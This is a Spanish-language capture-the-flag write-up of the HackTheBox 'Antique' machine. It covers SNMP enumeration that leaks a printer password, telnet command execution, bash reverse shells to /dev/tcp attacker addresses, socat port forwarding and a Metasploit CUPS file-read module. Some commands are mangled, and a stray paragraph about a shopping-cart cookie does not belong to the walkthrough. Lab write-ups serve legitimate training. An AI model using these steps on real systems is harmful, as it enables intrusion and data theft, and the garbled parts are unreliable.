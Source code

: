 # Máquina "Antique" de HackTheBox

- Linux  
- Fácil  
- SNMP Enumeration 
- Network Printer Abuse 
- CUPS Administration Exploitation (ErrorLog) EXTRA -> (DirtyPipe) [CVE-2022-0847]

Util en:

- eJPT

        IP 10.10.11.107

- nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.107

PORT   STATE SERVICE

23/tcp open  telnet

- nmap -p 23 -sCV -oA scans/nmap-tcpscripts 10.10.11.107

```
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.80%I=7%D=5/2%Time=626F2AC3%P=x86_64-pc-linux-gnu%r(NULL,
SF:F,"\ nHP\ x20JetDirect\ n\ n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPass
...[snip]...
SF:rect\n\nPassword:\x20");
```

agregamos el nombre al etc hosts, por ahora solo vemos el puerto telnet. Al intentar conectarnos sin contraseña se reusa la coneccion al intentar adivinar la muestra en
texto claro. Al lanzar burpsuite tampoco encontramos nada asi que procedemos con escaneo udp

- sudo nmap -sU --top-ports 10 -sV 10.10.11.107

```
PORT     STATE  SERVICE      VERSION
53/udp   closed domain
67/udp   closed dhcps
123/udp  closed ntp
135/udp  closed msrpc
137/udp  closed netbios-ns
138/udp  closed netbios-dgm
161/udp  open   snmp         SNMPv1 server (public)
445/udp  closed microsoft-ds
631/udp  closed ipp
1434/udp closed ms-sql-m
```

vemos el puerto 161 udṕ snmp asi que lanzamos 

- snmpwalk -v 2c -c public 10.10.11.107

iso.3.6.1.2.1 = STRING: "HTB Printer"

leemos este artico que encontramos 
https://www.irongeek.com/i.php?page=security%2Fnetworkprinterhacking&source=post_page-----7349e7804b81--------------------------------

esta vez lanzamos

- snmpget -v 1 -c público 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0

y obtuvimos

50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 3 106 111 114 115 119 122 123 126 130 131 134 135

lo convertimos de hexadecimal a texto y obtenemos

- P@ssw0rd@123!!123 

nos conectamos nuevamente por telnet esta vez usando la password
una vez dentro hacemos ?

La mayor parte se trata de configurar la impresora, pero la última, execEs muy interesante para mis propósitos. intentaré correr id: 

- exec id

uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)

encontramos la flag en  /var/spool/lpd
procederemos a mandarnos una reverse shell usando bash

- exec bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'

Ahora dentro lanzamos

- netstat -tnlp

vemos otro puerto ademas de telnet 

- nc 127.0.0.1 631

- curl 127.0.0.1:631

vamos a renviar este puerto para poder acceder.

- socat tcp-listen:9090,fork tcp:127.0.0.1:631 &

ahora en nuestro localhost veremos el puerto y vemos.

![Texto alternativo](/secciones/posts/imagenes/antique/web1.webp)

La página predeterminada de Apache2 ejecutamos nmap: 

- nmap -sV -sC -p 9090 10.10.11.107

tenemos CUPS 1.6.1. Busqué exploits y encontré un módulo de metasploit llamado cups_root_file_read. 

Ahora, para este exploit, necesitamos un shell en metasploit. Entonces, abra metasploit usando msfconsole. Entonces:

use exploit/multi/handlerset payload linux/x64/shell/reverse_tcpset lhost run0set lport 1235

- bash -i >& /dev/tcp/10.10.14.110/1235 0>&1 

use multi/escalate/cups_root_file_read

set session 1

run

y funciona buscamos la flag y terminada.

Al colocar algunos artículos en el carrito del primer portal y proceder al pago , me doy cuenta de que los artículos en realidad están reportados en la factura emitida por 
el segundo portal. Por tanto, debe existir algún tipo de comunicación entre los portales. Al analizar el segundo portal, descubro cómo se pasa la información del carrito. 

es cookie codificada simple que puedo modificar. 

Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto 
debido a que en algunas de las máquinas que realice, no tome los apuntes o no tome capturas de pantalla, así que he decidido buscar varios writeups
y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía 
o cualquier error, Puedes contactarme a mi correo.
